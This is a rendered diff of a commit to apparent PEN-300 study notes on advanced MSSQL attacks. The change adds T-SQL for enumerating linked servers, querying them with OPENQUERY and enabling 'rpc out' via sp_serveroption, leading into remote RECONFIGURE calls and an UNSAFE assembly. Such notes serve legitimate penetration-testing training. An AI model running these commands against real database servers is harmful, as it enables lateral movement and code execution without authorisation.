

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -237,11 +237,26 @@ CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;
 To list linked SQL servers(2 ways):
 
 ```
-exec sp_linkedservers;
+EXEC sp_linkedservers;
 
 SELECT * FROM sys.servers;
 ```
-For this example, assume that dc01 is the linked server.
+
+Test query on the linked MSSQL server using the "OPENQUERY" statement. Unluckily, the "OPENQUERY" statement doesn't support executing stored procedures:
+
+```
+select version from openquery("dc01", 'select @@version as version');   -> DC01 is the linked server
+
+select version from openquery("dc01", 'select system_user');
+```
+
+For this example, assume that DC01 is the linked server. When executing "RECONFIGURE" statements on a remote server, the created link must be configured with [outbound RPC](https://learn.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms186839(v=sql.105)?redirectedfrom=MSDN). If "RPC out" is not enabled, we can enable it using the ["SP_SERVEROPTION"](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-serveroption-transact-sql?view=sql-server-ver15) statement:
+
+```
+1. EXEC sp_serveroption 'LOCALHOST\instance', 'rpc', true;
+
+2. EXEC sp_serveroption 'LOCALHOST\instance', 'rpc out', true;
+```
 
 ```
 1st EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01
````
